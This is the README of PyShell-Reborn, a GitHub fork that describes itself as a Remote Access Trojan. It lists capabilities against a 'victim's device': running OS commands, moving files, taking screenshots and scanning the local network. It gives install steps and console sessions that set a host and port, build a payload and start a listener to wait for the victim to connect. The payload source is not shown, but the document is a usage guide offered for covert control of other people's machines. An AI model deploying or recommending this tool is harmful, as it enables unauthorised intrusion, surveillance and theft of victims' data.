 # PyShell-Reborn

NOTE: PyShell-Reborn is a fork of [pyshell](https://github.com/knassar702/pyshell) tool by knassar702.


**PyShell-Reborn** is a Remote Access Trojan (RAT) that allows for comprehensive control over a victim's device. It allows users to create and deploy payloads to remote systems, enabling a command and control interface. 


## Features 

- Upload and download files.
- Execute OS commands.
- Get victim's address.
- Open files on the victim's device.
- Open URLs in the victim's browser.
- Print messages in the victim's terminal.
- See active devices on the victim's network.
- Take screenshots from the victim's device.


## Installation (Linux)

1. Clone the repository locally: 

``` shell
git clone https://github.com/arnavpadwal/pyshell-reborn.git
cd pyshell-reborn
```

2. Install Dependencies:

``` shell
pip install -r requirements.txt
```

3. Running the script:

``` shell
./pyshell-reborn
```


## Usage Guide

PyShell-Reborn supports various commands to configure and manage payloads and connections. Below is a list of the primary commands and their usage:

#### **General Commands**

- `help` - Displays the list of available commands.

- `banner` - Clears the screen and displays the tool's logo.

- `exit` - Exits the tool.

#### **Configuration Commands**
- `set host <IP>` - Sets the IP address for the payload.

- `set port <PORT>` - Sets the port number for the payload.

- `set name <SESSION_NAME>` - Sets the session name for the payload.

- `show options` - Displays the current configuration options (host, port, and name).

#### **Payload Commands**

`make` - Builds the payload with the specified host, port, and session name. The payload is saved in the *payloads* directory.

#### **Exploitation Commands**

`run` - Starts the listener to wait for the victim to connect.

`exploit` - An alias for the `run` command.

`start` - Another alias for the `run` command.


## Examples

#### **Setting Configuration Options**

To configure the host and port for the payload:

```
[👾] Pyshell-Reborn :~ set host 192.168.1.10
Host => 192.168.1.10

[👾] Pyshell-Reborn :~ set port 4444
Port => 4444
```

To set a session name:

``` 
[👾] Pyshell-Reborn :~ set name mysession
Name => mysession
```

To view the current configuration:

``` 
[👾] Pyshell-Reborn :~ show options

[+] Your Host : 192.168.1.10
[+] Your Port : 4444
[+] Session Name : mysession
```

#### **Creating a Payload**

After configuring the host, port, and name, you can create the payload:

``` 
[👾] Pyshell-Reborn :~ make
[+] Building Payload [+]
[+] Completed [+]
[!] Saved in payloads File
```

#### **Running the Listener**

To start the listener and wait for a victim to connect:

``` 
[👾] Pyshell-Reborn :~ run
[+] Waiting for the victim...
```

#### **Example Session**

1. Set Configuration:
``` shell
set host 192.168.1.10
set port 4444
set name mysession
show options
```
2. Create Payload:
``` shell
make
``` 
3. Run Listener:
```shell
run
```

## Contribution Guide

Any contributions to the development of PyShell-Reborn are most welcome. Whether you want to report issues, request new features, or directly contribute to the codebase, your involvement is highly appreciated. Here's how you can contribute:

### Creating Issues and Feature Requests

- If you encounter any bugs, you can create an issue on the [Issues](https://github.com/arnavpadwal/pyshell-reborn/issues) page.

- Additionally, if have ideas for new features, you can create a feature request on the [Issues](https://github.com/arnavpadwal/pyshell-reborn/issues) page.

- Make sure to add the respective labels.
<img src="./img/labels.png" alt="labels section can be found on the right side of the page." width="250"/>

NOTE: Please provide detailed information to help me understand and resolve the issue or implement features.


### Supporting the Project

If you find PyShell-Reborn useful and would like to support the project's development, consider making a donation. Your support is greatly appreciated and helps me continue improving and maintaining the tool.

<img src="./img/upi.png" alt="upi information" width=180>

## To-Do

- [ ] Windows support.





## License

This project is licensed under the GPL 3.0 License.

---

